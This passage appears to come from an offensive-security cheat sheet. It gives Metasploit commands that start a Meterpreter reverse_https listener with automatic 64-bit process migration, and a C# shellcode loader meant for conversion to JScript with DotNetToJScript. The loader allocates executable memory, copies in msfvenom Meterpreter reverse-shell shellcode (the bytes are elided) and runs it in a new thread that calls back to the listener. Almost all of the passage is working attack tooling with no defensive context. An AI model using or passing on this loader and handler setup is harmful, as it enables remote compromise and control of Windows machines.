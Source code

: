 Start the handler with automatic migration to 64-bit process:

```
msf > use exploit/multi/handler
msf exploit(multi/handler) > set LHOST 10.10.13.37
msf exploit(multi/handler) > set LPORT 443
msf exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter/reverse_https
msf exploit(multi/handler) > set EXITFUNC thread
msf exploit(multi/handler) > set AutoRunScript post/windows/manage/archmigrate
msf exploit(multi/handler) > run
```



### C# to Jscript

* [https://github.com/tyranid/DotNetToJScript](https://github.com/tyranid/DotNetToJScript)

{% code title="TestClass.cs" %}
```csharp
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;

[ComVisible(true)]
public class TestClass
{
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

    [DllImport("kernel32.dll")]
    static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

    [DllImport("kernel32.dll")]
    static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

    public TestClass()
    {
        // msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.13.37 LPORT=443 -f csharp
        byte[] buf = new byte[775] { 0xfc,0x48,...,0xe4 };
        int size = buf.Length;
        IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);
        Marshal.Copy(buf, 0, addr, size);
        IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
        WaitForSingleObject(hThread, 0xFFFFFFFF);
    }

    public void RunProcess(string path)
    {
        Process.Start(path);
    }
}
```
{% endcode %}

